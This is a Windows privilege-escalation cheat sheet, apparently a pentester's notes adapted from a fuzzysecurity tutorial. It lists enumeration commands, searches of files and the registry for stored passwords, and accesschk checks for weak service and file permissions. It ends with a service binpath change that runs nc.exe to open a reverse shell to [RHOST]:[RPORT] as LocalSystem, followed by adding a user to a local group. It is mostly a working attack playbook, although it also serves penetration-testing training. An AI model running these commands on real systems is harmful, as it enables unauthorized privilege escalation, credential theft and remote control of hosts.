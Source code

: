 
// What system are we connected to?  
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)  
hostname  
echo %username%

// Get users  
net users  
net user [username]

// Networking stuff  
ipconfig /all  

// Routing tables  
route print  

// ARP cache table for all interfaces  
arp -A  

// Active network connections  
netstat -ano  

// Firewall fun (Win XP SP2+ only)  
netsh firewall show state  
netsh firewall show config  

// Scheduled tasks  
schtasks /query /fo LIST /v  

// List all started services (DISPLAY_NAME)  
net start  

// List running processes  
tasklist  

// Mapping of running processes to started services  
tasklist /SVC  

// List all drivers  
DRIVERQUERY  

// WMIC fun (Win 7/8 -- XP requires admin)  
wmic /?  

// WMIC: check patch level  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

// Search pathces for given patch  
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."  

// AlwaysInstallElevated fun  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Quick wins  
---  

// Quick wins  
dir /s *pass* == *cred* == *vnc* == *.config*  
findstr /si password *.xml *.ini *.txt  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  

// Policy Preference files that may have "cPassword" attribute set:  
Groups.xml: documented password encryption, can be decrypted **SOS**  
Services\Services.xml: Element-Specific Attributes  
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element  
Printers\Printers.xml: SharedPrinter Element  
Drives\Drives.xml: Element-Specific Attributes  
DataSources\DataSources.xml: Element-Specific Attributes  

// Service permissions  
sc query  
sc qc [service_name]  

### Accesschk  
---  

// Accesschk (part of "sysinternals")  
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)  

// List all user permissions  
accesschk.exe “domain\user” -a *  

// List all service permissions for username  
accesschk.exe <username> -c *  

// display permissions on every file  
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.*  
// only Read-Write  
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.* | find "RW"   

accesschk.exe -ucqv [service_name]   
accesschk.exe -uwcqv "[Group name you belong to]" *   

// Find all weak folder permissions per drive.  
accesschk.exe -uwdqs Users c:\  
accesschk.exe -uwdqs "[Group name you belong to]" c:\  

// Find all weak file permissions per drive.  
accesschk.exe -uwqs Users c:\*.*  
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*  

// Binary planting  
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"  
sc config [service_name] obj= ".\LocalSystem" password= ""  
sc qc [service_name] (to verify!)  

// add user to local group  
net localgroup "Users" IWAM_BOB /add  

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]  

Links:
---
\[1]: http://www.fuzzysecurity.com/tutorials/16.html  
\[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/  
\[3]: http://www.youtube.com/watch?v=kMG8IsCohHA  
\[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo  
\[5]: http://www.greyhathacker.net/?p=738  
